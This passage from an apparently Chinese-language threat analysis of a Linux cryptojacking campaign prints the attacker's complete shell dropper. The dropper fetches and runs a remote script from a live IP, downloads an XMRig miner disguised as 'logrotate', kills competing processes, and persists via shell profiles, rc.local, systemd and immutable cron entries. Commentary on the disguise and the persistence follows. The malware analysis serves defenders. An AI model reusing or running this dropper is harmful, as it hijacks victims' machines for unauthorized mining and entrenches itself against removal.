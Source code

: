 ```
#!/bin/sh{ pkill -f xmrig || kill -9 $(pgrep -f 'xmrig'); } >/dev/null 2>&1ps -eo pid,%cpu,comm --sort=-%cpu | awk 'NR>1 && !/awk|ps/ && !($3 ~ /^(logrotate|sshd|java)$/) && int($2) > 60 { system("kill -9 " $1) }'EXEC="source <(wget -q -O - <http://185.196.8.123/logservice.sh> || curl -sL <http://185.196.8.123/logservice.sh>)"trap'rm -- "$0"' EXITif [ -z "${HOME+x}" ]; then   export HOME=/tmpfimkdir -p "$HOME/.config" >/dev/null 2>&1[ ! -f "$HOME/.config/logrotate" ] && {   ARCH=$(uname -m)   URL=""   [ "$ARCH" = "x86_64" ] && URL="<https://awarmcorner.world/silicon64blueprints.png>"   [ "$ARCH" = "aarch64" ] && URL="<https://awarmcorner.world/siliconarmblueprints.png>"   [ "$ARCH" = "armv7l" ] && URL="<https://awarmcorner.world/siliconarmv7blueprints.png>"   [ -z "$URL" ] && URL="<https://awarmcorner.world/silicon64blueprints.png>"   { wget -q -O "$HOME/.config/logrotate""$URL" || curl -sL -o "$HOME/.config/logrotate""$URL"; } >/dev/null 2>&1   chmod +x "$HOME/.config/logrotate" >/dev/null 2>&1}pgrep -f "config/logrotate" >/dev/null 2>&1 || "$HOME/.config/logrotate"add_to_startup() {   if [ -r "$1" ]; then       if ! grep -Fxq "$EXEC >/dev/null 2>&1""$1"; then           echo"$EXEC >/dev/null 2>&1" >> "$1"       fi   fi}case"$(ps -p $$ -o comm=)"in   bash) add_to_startup "$HOME/.bashrc"         add_to_startup "$HOME/.bash_logout" ;;   zsh) add_to_startup "$HOME/.zshrc" ;;esac[ "$(id -u)" -eq 0 ] && {   RCLOCAL=''   [ -e /etc/debian_version ] && RCLOCAL='/etc/rc.local'   [ -e /etc/centos-release -o -e /etc/redhat-release ] && RCLOCAL='/etc/rc.d/rc.local'   [ -n "$RCLOCAL" ] && add_to_startup "$RCLOCAL"   cat >/etc/systemd/system/logrotate.service <<EOL[Unit]Description=The logrotate utility is designed to simplify the administration of log files on a system which generates a lot of log files[Service]ExecStart=$HOME/.config/logrotateRestart=alwaysNice=-20StandardOutput=null[Install]WantedBy=multi-user.targetEOL   sudo systemctl daemon-reload 2>/dev/null   sudo systemctl enable logrotate.service 2>/dev/null   [ -d /var/spool/cron ] && [ -f /var/spool/cron/root ] && echo"@daily $EXEC" >> /var/spool/cron/root 2>/dev/null   [ -d /var/spool/cron/crontabs ] && [ -f /var/spool/cron/crontabs/root ] && echo"@daily $EXEC" >> /var/spool/cron/crontabs/root 2>/dev/null   [ -f /etc/crontab ] && echo"@daily $EXEC" >> /etc/crontab 2>/dev/null && sudo chattr +i /etc/crontab 2>/dev/null   [ -d /etc/cron.hourly ] && echo"$EXEC" >> /etc/cron.hourly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.hourly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.hourly/logrotate 2>/dev/null   [ -d /etc/cron.daily ] && echo"$EXEC" >> /etc/cron.daily/logrotate 2>/dev/null && sudo chmod +x /etc/cron.daily/logrotate 2>/dev/null && sudo chattr +i /etc/cron.daily/logrotate 2>/dev/null   [ -d /etc/cron.weekly ] && echo"$EXEC" >> /etc/cron.weekly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.weekly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.weekly/logrotate 2>/dev/null   [ -d /etc/cron.monthly ] && echo"$EXEC" >> /etc/cron.monthly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.monthly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.monthly/logrotate 2>/dev/null   [ -d /etc/cron.yearly ] && echo"$EXEC" >> /etc/cron.yearly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.yearly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.yearly/logrotate 2>/dev/null}
```  
  
  
logrotate 二进制文件  
  
如前所述，攻击者以logrotate为名部署了恶意负载，可能是为了与同名的合法系统实用程序混为一谈，避免引起怀疑。实际上，这个logrotate二进制文件是 XMRig 的修改版本。XMRig 是一个合法的开源加密货币挖矿程序，不出所料，它仍然是威胁行为者进行未经授权的加密货币挖矿的首选。作为开源软件，XMRig 为攻击者提供了轻松定制的便利，在本例中，这涉及剥离所有命令行解析逻辑并对配置进行硬编码。这种调整不仅简化了部署，还使负载能够更逼真地模拟原始的logrotate过程。  
  
持久性机制  
  
获得执行权限后，攻击者设置了多种持久化机制。我们观察到这些机制结合使用了老式启动脚本、现代 systemd 服务、cron 作业和 shell 配置文件：  
  
RC 本地  
  
他们首先检查 Linux 发行版并修改相应的启动文件：  
  
```
RCLOCAL=''[ -e /etc/debian_version ] && RCLOCAL='/etc/rc.local'[ -e /etc/centos-release -o -e /etc/redhat-release ] && RCLOCAL='/etc/rc.d/rc.local'[ -n "$RCLOCAL" ] && add_to_startup "$RCLOCAL"
```  
  